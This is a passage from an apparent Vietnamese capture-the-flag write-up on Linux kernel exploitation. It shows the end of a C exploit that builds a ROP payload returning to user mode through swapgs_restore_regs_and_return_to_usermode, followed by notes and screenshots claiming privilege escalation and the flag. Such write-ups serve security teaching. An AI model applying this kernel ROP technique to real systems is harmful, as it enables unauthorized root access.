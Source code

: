 ```c
  pl[offset++] = 0;
  pl[offset++] = 0;
  pl[offset++] = (u64)&win;
  pl[offset++] = user_cs;
  pl[offset++] = user_rflags;
  pl[offset++] = user_sp;
  pl[offset++] = user_ss;

  i64 lenght = write(global_fd, pl, sizeof(pl));
  puts("pls @@");

  return 0;
}

```

- nó sẽ return vào chuỗi `rop` của ta 

![image](https://hackmd.io/_uploads/BJqvWRGzex.png)

- đây là khi vào `swapgs_restore_regs_and_return_to_usermode`

![image](https://hackmd.io/_uploads/rkz_fCGGlg.png)

- thành công `privilege escalation`

![image](https://hackmd.io/_uploads/H1c2z0fzgl.png)


flag 

![image](https://hackmd.io/_uploads/B1lkdk7fgx.png)
